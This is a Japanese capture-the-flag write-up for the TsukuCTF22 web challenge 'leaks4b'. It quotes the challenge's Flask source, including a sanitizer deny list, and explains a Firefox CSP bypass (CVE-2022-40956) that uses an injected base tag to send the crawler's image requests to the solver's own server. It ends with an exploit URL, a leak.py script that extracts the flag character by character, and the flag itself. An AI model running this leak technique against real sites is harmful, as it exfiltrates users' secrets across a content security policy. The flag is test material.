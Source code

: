 ```yaml
---
title: leaks4b
description: Firefoxの1day問題
author: Satoki
genre: Web
solver: 3
point: 500
---
```


# leaks4b

## 問題文

ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)   

## 難易度

**hard**  

## 作問にあたって

趣味CTFということもあり、キモイ問題を出しても良いでしょうということで1day問を出しました。  
Mozillaに早めに報告してしまったので、0day問ではなくなってしまいました(CVE-2022-40956)。  
CSSiやReDoSを用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefoxの1day以外で解かれた方がいましたらWriteupなどで教えてくれると嬉しいです。  
ちなみにMiscのsoderはこの非想定解から生まれた問題です。  
そして4bは嘘です。  

## 解法

URLとソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
![site1.png](images/site1.png)  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
![site2.png](images/site2.png)  
ひとまず配布されたソースのapp.pyを見ると、以下のようであった。  

```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

~~~
@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
</head>
~~~
"""

~~~
@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```

`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookieがフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
![flag0.jpg](images/flag0.jpg)  
一見すると`?cake=`で任意のHTMLタグを差し込め、XSSによってクローラのcookieを取得できそうだがhttpOnlyであるようだ。  
さらにcssi_sanitizerと、とんでもなく厳しいCSPにより守られており、XSSは愚かCSSiも難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoSの可能性もあることに気づく。  
幸いCSPにimgの制限はないため、自身のドメインをsrcに設定したimgタグを挿入し、アクセスの有無を確認することでReDoSの応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかしcssi_sanitizerや文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法であるbaseタグを挿入すると、CSPでnoneであるはずなのになぜかimgのsrcをbaseのhrefへ問い合わせることがわかる。  
これによって、CSPをバイパスしてimgの相対パスがリークできる。  
imgの画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現とbaseタグをcssi_sanitizerを躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。  

```txt
http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```

baseタグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下のleak.pyで行う。

```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```

実行し、手動でリークした文字を追加していくとflagが得られた(自動化もできるが手動でも可能なようなflagになっている)。  

## TsukuCTF22{cakeuma}
